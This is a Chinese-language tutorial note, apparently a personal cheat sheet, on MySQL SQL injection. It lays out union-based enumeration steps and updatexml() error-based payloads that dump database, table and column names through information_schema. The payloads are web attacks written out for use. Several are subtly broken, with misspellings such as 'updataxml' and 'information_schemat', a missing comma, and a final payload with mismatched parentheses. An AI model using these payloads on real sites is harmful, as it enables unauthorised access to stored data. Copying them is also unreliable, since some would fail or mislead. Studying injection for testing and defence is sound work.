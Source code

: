 



==有些地方不能加'所以就用ASCⅡ 来代==替

### union类型
判断注入点，判断字符还是整形注入就不说了，
union注入的要点就是判断注入点和回显点，当两者都存时，基本就可以使用union注入
1. 先通过'或者1' and 1='1判断是否有注入点
1. 通过order by判断当前的数据库中有多少个字段
1. 再用union select 1,2,3判断回显点
1. 使用union select database(),version()判断数据库名和数据库版本
1. 当版本大于5.5时在数据库information_schema中寻找当前数据库的所有表union select group(table_name)2,3 from information_schema.tables where table_schema='当前数据库 '
2. 和上面同样的去information_schema的columns表里寻找要找的当前数据库的表中的字段union select group(column_name)2,3 from information_schema.columns where table_schema='当前数据库 ' table_name='上面找到的表名'      (ps.也可以通过information_schema.schemata表来找所有的数据库)




### 报错注入
先用'测试能否被注入(例如http://www.ffffff.com/?id=1')这时候在数据库中查询中因为多了一个单引号而报错，(故意使其报错)程序如果直接报报错信息输出到了页面上的话就可以使用报错注入。(查询语句会直接返回到报错信息里)报错注入有多种格式，这里我们使用updatexml()函数来演示，语句如下：



判断能否报错注入，主要看sql的错误信息是否会回显到前端页面。如果能回显的话，那就能报错注入。



> ！！！报错注入必须构造的语句本身没有语法甚至语义上的错误，`updatexml`和`extractvalue`本身会抛出一个错误。如果语句本身发生错误，updatexml和extractvalue则不会报错。

> 而报错注入本省则会引发一个错误，导致sql语句不会执行








1. 查询当前数据库
```
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
```

1. 查询所有数据库
```
' and updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schemat.schemata),0x7e),1)
```

2. 查询当前数据库的所有表
```
' and updataxml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)
```

3. 查询当前表的所有字段
```
' and updatexml(1,concat(select group_concat(column_name) from information_schema.columns where table_name='当前表名' and table_schema='当前数据库'),1)
```
